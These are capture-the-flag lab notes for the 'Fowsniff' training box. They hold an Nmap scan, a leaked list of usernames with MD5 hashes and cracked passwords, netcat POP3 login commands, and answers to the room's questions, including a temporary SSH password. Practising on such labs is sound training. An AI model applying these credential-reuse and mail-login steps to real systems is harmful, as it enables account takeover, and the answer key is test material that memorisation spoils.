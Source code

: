 # Hack into the FowSniff organization

## Notes
Starting Nmap 7.60 ( https://nmap.org ) at 2021-02-24 20:35 +0545
Nmap scan report for 10.10.119.114
Host is up (0.25s latency).
Not shown: 995 closed ports
PORT    STATE    SERVICE     VERSION
22/tcp  open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (EdDSA)
80/tcp  open     http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fowsniff Corp - Delivering Solutions
110/tcp open     pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES UIDL USER SASL(PLAIN) PIPELINING TOP CAPA AUTH-RESP-CODE
143/tcp open     imap        Dovecot imapd
911/tcp filtered xact-backup
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

pastebin https://pastebin.com/NrAqVeeX

mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4         mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56      bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009         apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb      skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26         scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b       carp4ever    
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11        orlando12    
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e        07011972

nc ip 110

user `<username>`
pass `<password>`
list
retr `no.`

## Questions
1. What was seina's password to the email service?
```
scoobydoo2
```

2. Looking through her emails, what was a temporary password set for her?
```
S1ck3nBluff+secureshell
```